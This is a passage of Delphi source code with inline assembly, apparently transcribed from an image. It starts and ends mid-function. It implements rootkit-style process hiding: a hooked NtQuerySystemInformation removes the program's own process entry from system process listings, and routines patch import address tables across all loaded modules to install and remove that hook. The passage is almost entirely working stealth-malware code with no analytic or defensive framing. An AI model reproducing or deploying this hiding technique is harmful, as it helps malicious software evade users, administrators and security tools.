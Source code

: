     label onceagain, getnextpidstruct, quit, fillzero;
    asm
     push ReturnLength
     push SystemInformationLength
     push SystemInformation
     push dword ptr SystemInformationClass
     call dword ptr [addr_NtQuerySystemInformation]
     or eax,eax
     jl quit
     cmp SystemInformationClass, SystemProcessesAndThreadsInformation
     jne quit
     onceagain:
     mov esi, SystemInformation
     getnextpidstruct:
     mov ebx, esi
     cmp dword ptr [esi],0
     je quit
     add esi, [esi]
     mov ecx, [esi+44h]
     cmp ecx, mypid
     jne getnextpidstruct
     mov edx, [esi]
     test edx, edx
     je fillzero
     add [ebx], edx
     jmp onceagain
     fillzero:
     and [ebx], edx
     jmp onceagain
     quit:
     mov Result, eax
    end
    procedure InterceptFunctions;
    var hSnapShot: THandle;
             me32: MODULEENTRY32;
    begin
     addr_NtQuerySystemInformation:=GetProcAddress(getModuleHandle('ntdll.dll'),'NtQuerySystemInformation');
     hSnapShot:=CreateToolHelp32SnapShot(TH32CS_SNAPMODULE,GetCurrentProcessId);
      if hSnapshot=INVALID_HANDLE_VALUE then exit;
       try
        ZeroMemory(@me32,sizeof(MODULEENTRY32));
        me32.dwSize:=sizeof(MODULEENTRY32);
        Module32First(hSnapShot,me32);
         repeat
          ReplaceIATEntryInOneMod('ntdll.dll',addr_NtQuerySystemInformation,@MyNtQuerySystemInfo,me32.hModule);
         until not Module32Next(hSnapShot,me32);
       finally
        CloseHandle(hSnapShot);
       end;
    end;
    procedure UninterceptFunctions;
    var hSnapShot: THandle;
             me32: MODULEENTRY32;
    begin
     addr_NtQuerySystemInformation:=GetProcAddress(getModuleHandle('ntdll.dll'),'NtQuerySystemInformation');
     hSnapShot:=CreateToolHelp32SnapShot(TH32CS_SNAPMODULE,GetCurrentProcessId);
      if hSnapshot=INVALID_HANDLE_VALUE then exit;
      try
       ZeroMemory(@me32,sizeof(MODULEENTRY32));
       me32.dwSize:=sizeof(MODULEENTRY32);
       Module32First(hSnapShot,me32);
